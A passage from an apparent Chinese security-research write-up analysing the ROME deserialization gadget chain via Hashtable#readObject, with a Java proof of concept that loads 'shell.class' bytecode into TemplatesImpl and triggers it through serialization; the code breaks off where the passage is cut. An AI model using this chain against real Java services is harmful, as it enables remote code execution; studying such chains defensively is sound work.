 ‍

### ​`HashTable#readobject()`​​

HashTable利用链其实并不是针对ROME的利用链。其作用是能够类似hashmap一样调用任意类的hashcode方法

利用链

```java
HashTable#ReadObject() -&gt; ObjectBean#hashCode() -&gt; ToStringBean#toString(String) -&gt; TemplatesImpl.getOutputProperties()
```

‍

#### 利用链分析

先断到`HashTable#reconstitutionPut()`​

​![image](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-2e04f189de9d8c163167a54894af0575acc018eb.png)​

可以发现也是直接调用`key`​的`hashcode`​方法

​![image](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-c50f6a2c9a7856f349a40f387ba759e74d07d71d.png)​

​​

‍

```java
package ROME;

import Serial.Serial;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import com.sun.syndication.feed.impl.ObjectBean;
import com.sun.syndication.feed.impl.ToStringBean;

import java.lang.reflect.Field;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.util.Hashtable;

public class ROME_HashTable {
    public static void main(String[] args) throws Exception {
        TemplatesImpl templatesimpl = new TemplatesImpl();

        byte[] bytecodes = Files.readAllBytes(Paths.get("C:\\Users\\34946\\Desktop\\ROME\\target\\classes\\shell.class"));

        setValue(templatesimpl,"_name","aaa");
        setValue(templatesimpl,"_bytecodes",new byte[][] {bytecodes});
        setValue(templatesimpl, "_tfactory", new TransformerFactoryImpl());

        ToStringBean toStringBean = new ToStringBean(Templates.class,templatesimpl);

        ObjectBean objectBean = new ObjectBean(ToStringBean.class,toStringBean);

        Hashtable hashtable = new Hashtable();
        hashtable.put(objectBean,"123");

        Serial.Serialize(hashtable);
        Serial.DeSerialize("ser.bin");
    }

    public static void setValue(Object obj, String name, Object value) throws Exception{
        Field field = obj.getClass().getDeclaredField(name);
```